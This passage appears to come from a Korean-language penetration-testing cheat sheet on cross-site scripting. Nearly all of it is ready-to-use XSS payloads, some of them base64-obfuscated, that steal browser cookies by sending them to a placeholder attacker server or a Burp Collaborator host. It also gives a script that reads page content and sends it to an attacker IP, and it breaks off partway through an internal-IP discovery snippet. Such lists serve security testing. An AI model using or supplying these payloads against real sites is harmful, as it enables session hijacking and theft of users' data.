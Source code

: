 ```javascript
// It's also possible to execute JS code only with the chars: []`+!${}
```
## XSS 일반적인 페이로드

### 여러 페이로드 중 1개

{% content-ref url="steal-info-js.md" %}
[steal-info-js.md](steal-info-js.md)
{% endcontent-ref %}

### 쿠키 가져오기
```javascript
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```
{% hint style="info" %}
만약 쿠키에 HTTPOnly 플래그가 설정되어 있다면 JavaScript에서 쿠키에 접근할 수 없습니다. 그러나 당신이 충분히 운이 좋다면 [이 보호를 우회하는 몇 가지 방법](../hacking-with-cookies/#httponly)가 있습니다.
{% endhint %}

### 페이지 콘텐츠 도용
```javascript
var url = "http://10.10.10.25:8000/vac/a1fbf2d1-7c3f-48d2-b0c3-a205e54e09e8";
var attacker = "http://10.10.14.8/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
}
}
xhr.open('GET', url, true);
xhr.send(null);
```
### 내부 IP 찾기
```html
<script>
var q = []
var collaboratorURL = 'http://5ntrut4mpce548i2yppn9jk1fsli97.burpcollaborator.net';
```